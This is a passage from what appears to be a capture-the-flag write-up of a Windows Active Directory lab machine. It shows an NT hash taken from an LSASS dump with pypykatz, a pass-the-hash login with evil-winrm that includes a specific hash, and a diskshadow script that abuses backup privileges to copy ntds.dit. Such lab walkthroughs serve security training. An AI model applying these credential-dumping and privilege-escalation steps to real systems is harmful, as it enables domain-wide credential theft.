 > LSASS, or Local Security Authority Subsystem Service, is a crucial process in Microsoft Windows that enforces security policies, verifies user logins, handles password changes, and creates access tokens. It is essential for the normal operation of Windows systems and writes to the Windows Security Log.
{: .prompt-info}

We got the NT hash for `svc_backup` user from `lsass.DMP`

```sh
pypykatz lsa minidump lsass.DMP -p msv
```

![]({{page.assets_path}}/013.png)

## **Foothold**

Having the NT hash, we accessed the machine as `svc_backup` using `evil-winrm`

```sh
evil-winrm -i 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```

![]({{page.assets_path}}/014.png)

## **PrivEsc**

`svc_backup` is a member of `BACKUP OPERATORS`, he has `SeBackupPrivilege` and `SeRestorePrivilege` privileges

![]({{page.assets_path}}/015.png)

These privileges allow the user to create backups, what we could do here is make a copy of `ntds.dit` and `system` registry hive and use them to extract
users' NTLM hashes.

> What is NTDS.DIT?  
>NTDS.DIT stands for New Technology Directory Services Directory Information Tree. It serves as the primary database file within Microsoft’s Active Directory Domain Services (AD DS). Essentially, NTDS.DIT stores and organizes all the information related to objects in the domain, including users, groups, computers, and more. It acts as the backbone of Active Directory, housing critical data such as user account details, passwords, group memberships, and other object attributes.
{: .prompt-info}

Because `ntds.dit` is in use by the domain, we could't just copy it. That's why we created the following script to make a shadow copy of the `C:/` drive.

{: file="shadow.dsh"}
```
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% F:
end backup
exit
```

